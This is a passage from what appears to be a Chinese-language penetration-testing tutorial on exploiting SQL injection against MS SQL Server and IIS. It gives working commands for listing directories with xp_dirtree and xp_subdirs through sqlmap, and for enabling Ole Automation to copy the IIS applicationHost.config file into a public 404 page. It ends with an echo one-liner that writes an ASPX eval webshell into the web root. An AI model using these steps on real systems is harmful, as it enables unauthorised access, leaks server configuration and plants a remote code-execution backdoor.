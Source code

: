 因为 xp_dirtree 输出是三个字段的所以要创建一个三个字段的表 ，字段名可以随便取

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCGxQJFz4X3eqsA2o9mfSicuUkpicluPYaprUftiaDkTK8GAiaxkn56tkHpw/640?wx_fmt=png)

通过 sqlmap 列出 dir 表就可以看到目录了

sqlmap 有缓存，可以通过 --fresh-queries 重新列数据表，--flush-session 这个直接清掉缓存重新跑

### xp_subdirs

```
xp_subdirs 'c:\'

```

这个方法和上面的一样，缺点是不能列出文件

### 修改 404 页面

**适用于 2005 或者高权限启动的 2008**

上面有两个配置文件路径一个是 iis6 一个是 iis7

iis 的报错页面一般都在

C:\inetpub\custerr\zh-CN

最后语言这个文件夹可能会变，之前看到湾湾的是 zh-TW，如果是外语的话可能也会变成相应的

```
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\inetsrv\config\applicationHost.config' ,'C:\inetpub\custerr\zh-CN\404.htm';

```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCNKD5VzKMAARIr2GnG0Wd5csvvFg54gDz4wEzOWhaYjc8DqlxLicJSag/640?wx_fmt=png)

如果是 05 的数据库要修改配置文件路径

C:\WINDOWS\Help\iisHelp\common\404b.htm #iis6 404 页面位置  
C:\Windows\system32\inetsrv\metabase.xml #iis6 配置文件

### 爆破路径

爆破我觉得实在有点不现实就不写了，毕竟路径只要不是默认的基本就很难猜到了

一般来说 iis 的默认根目录为 C:\inetpub\wwwroot\

得到绝对路径之后就可以写入 webshell 了

```
echo ^<%@ Page Language="Jscript"%^>^<%Response.Write(eval(Request.Item["z"],"unsafe"));%^> > C:\inetpub\wwwroot\shell.aspx

```
